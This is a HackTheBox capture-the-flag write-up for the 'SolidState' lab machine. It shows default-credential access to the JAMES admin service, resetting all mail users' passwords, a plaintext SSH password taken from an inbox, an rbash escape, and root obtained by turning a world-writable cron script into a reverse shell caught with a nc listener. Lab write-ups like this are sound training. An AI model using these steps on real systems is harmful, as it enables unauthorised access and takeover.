

# SolidState - Medium

Target IP: **10.129.69.176**

## User Flag

Initial scan: ```sudo nmap -sC -sV 10.129.69.176 -v```

We have quite a few ports here.

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 77:00:84:f5:78:b9:c7:d3:54:cf:71:2e:0d:52:6d:8b (RSA)
|   256 78:b8:3a:f6:60:19:06:91:f5:53:92:1d:3f:48:ed:53 (ECDSA)
|_  256 e4:45:e9:ed:07:4d:73:69:43:5a:12:70:9d:c4:af:76 (ED25519)
25/tcp   open  smtp?
|_smtp-commands: Couldn't establish connection on port 25
80/tcp   open  http    Apache httpd 2.4.25 ((Debian))
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Home - Solid State Security
110/tcp  open  pop3?
119/tcp  open  nntp?
4555/tcp open  rsip?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

First, let's navigate to the website on port 80.

I tested the functionalities of the website, but it seems like a totally static page. Directory enumeration doesn't reveal much either.


Let's move to somewhere else. Port 4555 is an unfamiliar port to me, so let's look into it.

After connecting it tells us that it is running JAMES Remote Administration Tool 2.3.2.

```
┌──(y㉿peacebreaker)-[~]
└─$ nc -nv 10.129.69.176 4555
(UNKNOWN) [10.129.69.176] 4555 (?) open
JAMES Remote Administration Tool 2.3.2
Please enter your login and password
Login id:
```

The default admin credentials ```root:root``` works.

```
┌──(y㉿peacebreaker)-[~]
└─$ nc -nv 10.129.69.176 4555
(UNKNOWN) [10.129.69.176] 4555 (?) open
JAMES Remote Administration Tool 2.3.2
Please enter your login and password
Login id:
root
Password:
root
Welcome root. HELP for a list of commands
```

We can see the users on the mail service. I'm guessing this is connected to all the other mail servers, and this is a management service.

```
listusers
Existing accounts 5
user: james
user: thomas
user: john
user: mindy
user: mailadmin
```

With our admin privileges, we can change the password of all these users. Let's change all of them to ```password```. Pretty evil, but oh well.

```
setpassword james password
Password for james reset
setpassword thomas reset
Password for thomas reset
setpassword john password
Password for john reset
setpassword mindy password
Password for mindy reset
setpassword mailadmin password
Password for mailadmin reset
```

Now we can log in with all these accounts and see if there is any useful information in the inboxes.

We get a set of credentials in Mindy's inbox.

```
RETR 2
+OK Message follows
Return-Path: <mailadmin@localhost>
Message-ID: <16744123.2.1503422270399.JavaMail.root@solidstate>
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit
Delivered-To: mindy@localhost
Received: from 192.168.11.142 ([192.168.11.142])
          by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 581
          for <mindy@localhost>;
          Tue, 22 Aug 2017 13:17:28 -0400 (EDT)
Date: Tue, 22 Aug 2017 13:17:28 -0400 (EDT)
From: mailadmin@localhost
Subject: Your Access

Dear Mindy,


Here are your ssh credentials to access the system. Remember to reset your password after your first login. 
Your access is restricted at the moment, feel free to ask your supervisor to add any commands you need to your path. 

username: mindy
pass: P@55W0rd1!2@

Respectfully,
James
```

Let's log in with ssh.

We get in, but we're in a restricted shell.

```
mindy@solidstate:~$ whoami
-rbash: whoami: command not found
```

We can still get the user flag from here.

## Root Flag

Let's get out of this restricted shell.

We can use the ```-t``` flag on ssh to force pseudo-terminal allocation.

```
┌──(y㉿peacebreaker)-[~]
└─$ ssh mindy@10.129.69.176 -t "bash"     
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
mindy@10.129.69.176's password: 
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$ whoami
mindy
```

We're out!

There is a world-writable python script in ```/opt```.

```
${debian_chroot:+($debian_chroot)}mindy@solidstate:/opt$ ls -la
total 16
drwxr-xr-x  3 root root 4096 Aug 22  2017 .
drwxr-xr-x 22 root root 4096 May 27  2022 ..
drwxr-xr-x 11 root root 4096 Apr 26  2021 james-2.3.2
-rwxrwxrwx  1 root root  105 Aug 22  2017 tmp.py
```

Looking inside, it seems to clear out the ```/tmp``` directory. The nature of what this script does seems like it would be a script being ran on a cron job.

```
${debian_chroot:+($debian_chroot)}mindy@solidstate:/opt$ cat tmp.py 
#!/usr/bin/env python
import os
import sys
try:
     os.system('rm -r /tmp/* ')
except:
     sys.exit()
```

Let's change the script to give us a reverse shell connection and wait. If my hypothesis is correct, we should catch a connection.



After waiting for about three minutes, we get a shell.

```
┌──(y㉿peacebreaker)-[~]
└─$ nc -lvnp 4444                                 
listening on [any] 4444 ...
connect to [10.10.16.68] from (UNKNOWN) [10.129.69.176] 40010
bash: cannot set terminal process group (4869): Inappropriate ioctl for device
bash: no job control in this shell
root@solidstate:~# whoami
whoami
root
```

We can proceed to get the root flag from here.

Nice pwn!

## Contact

Email: <johnyang4406@gmail.com>, <john_s_yang@brown.edu>

LinkedIn: <https://www.linkedin.com/in/john-yang-747726292/>

HackTheBox: <https://profile.hackthebox.com/profile/019c423f-9b9b-708f-8b31-55983b89dddd?utm_medium=copy_url/>
